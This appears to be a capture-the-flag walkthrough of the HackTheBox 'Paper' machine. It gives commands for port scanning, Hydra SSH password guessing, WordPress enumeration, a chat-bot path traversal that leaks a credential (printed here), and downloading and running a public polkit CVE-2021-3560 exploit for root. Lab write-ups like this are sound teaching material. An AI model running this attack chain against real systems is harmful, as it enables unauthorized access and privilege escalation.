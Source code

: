 # Paper
### A demonstration walkthrough of a pen test process using HTB's Paper with some normal dead ends as an example.  

*Note* /etc/hosts appended with "10.10.11.143 paper.htb"
Basic scan of all ports 
```
nmap -p- paper.htb
```

The preferred way to scan.  A fast scan of all ports then a deeper scan for services on the found ports  
```
ports=$(nmap -p- --min-rate=1000 -T4 paper.htb | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -sC -sV -p$ports paper.htb
nikto -h paper.htb
```
Interesting Results (NMAP):  
- Running OpenSSH 8.0 and Apache httpd 2.4.37 on CentOS  
Interesting Results (NIKTO):   
- OSVDB-877: TRACE and missing common protection headers.  Set this aside unless we user traffic to escalate.
- Uncommon header 'x-backend-server' found, with contents: office.paper
- Retrieved x-powered-by header: PHP/7.2.24

**DEAD END:** Browsing site shows only the default install page, nothing interesting in source, HTTPS: fails cert validation.  
**DEAD END:**  Using Hydra to guess common username/passwords for SSH.  Trying a small set of default username and password combinations work more often in real world vs. simulations.  
```
echo 'root\nuser\nadmin\nadministrator\ndevelopment\ntest\napache\noffice\npaper' > paper.htb.usernames
echo 'password\nPassword\nPassw0rd\nPassw0rd!' > paper.htb.passwords
hydra -L paper.htb.usernames -P paper.htb.passwords -e nsr ssh://paper.htb
```
**DEAD END:** Using dirbuster results were only standard Apache files

Added backend server to /etc/hosts:  "10.10.11.143 office.paper"
```
nikto -h office.paper
```
Interesting results:
- Link to WordPress API docs: https://api.w.org
- 'x-redirect-by' found, with contents: WordPress

Browsed "office.paper" added a few more possible username to hyrda files.  Following chat noticed command about unsafe draft content.
```
wpscan --url http://office.paper
```
WordPress version 5.2.3 identified (Insecure, released on 2019-09-05).
```
searchsploit wordpress 5.2.3
cat /usr/share/exploitdb/exploits/multiple/webapps/47690.md
```

Browsed to http://office.paper/?static=1  
Draft leads to a chat server and secret registration page: http://chat.office.paper/register/8qozr226AhkCHZdyY  

Added "10.10.11.143 chat.office.paper" to /etc/hosts
**DEAD END:** Nikto and dirbuster on discovered hosts didn't yield any new results

I read the blog posts. Fun "The Office" references lots of names to add to Hydra lists.
Dwight setup a bot, seems like he is the admin.

The bot will take commands.
**DEAD END** Trying command injection, nothing I tried worked.  Seems I'm limited to 'list' and 'file' commands
**Comment"" First pass on enum drew a blank beyond the fact that Dwight owns the bot.

#### Rabbit Hole
Should Dwight + "The Office" + password be the way?
Outtakes:   
[YouTube](https://www.youtube.com/watch?v=yXPrp0AAvZ4)  
[YouTube](https://www.youtube.com/watch?v=dtGCC-DleX0)  
[YouTube](https://www.youtube.com/watch?v=HkmJFjbsIgM)  
[YouTube](https://www.youtube.com/watch?v=8zfNfilNOIE)  
[YouTube](https://www.youtube.com/watch?v=F1wodhJ-qFo)  

Geez, lots of ideas, lots of real bad password practices. Hydra failed, zero traction.

#### Better enum 
Googled RocketChat configuration led to using environment variables. 
A second pass of enum landed on "file ../../dwight/hubot/.env"  
export ROCKETCHAT_USER=recyclops
export ROCKETCHAT_PASSWORD=Queenofblad3s!23  
Added to hydra files

```
hydra -L paper.htb.usernames -P paper.htb.passwords -e nsr ssh://paper.htb
```
[DATA] attacking ssh://paper.htb:22/
[22][ssh] host: paper.htb   login: dwight   password: Queenofblad3s!23
```
ssh dwight@paper.htb
```

### USER SUCCESS!

# Try LinPEAS to find escalation
[LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)
```
# From github
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh > linpeas.sh
scp linpeas.sh dwight@office.paper:linpeas.sh
```

Running linpeas.sh shows vulnerables to  CVE-2021-3560

```
curl https://raw.githubusercontent.com/Almorabea/Polkit-exploit/main/CVE-2021-3560.py > exploit.py
scp exploit.py dwight@paper.htb:.
ssh dwight@paper.htb
```
```
python3 exploit.py
```

### ROOT SUCCESS!
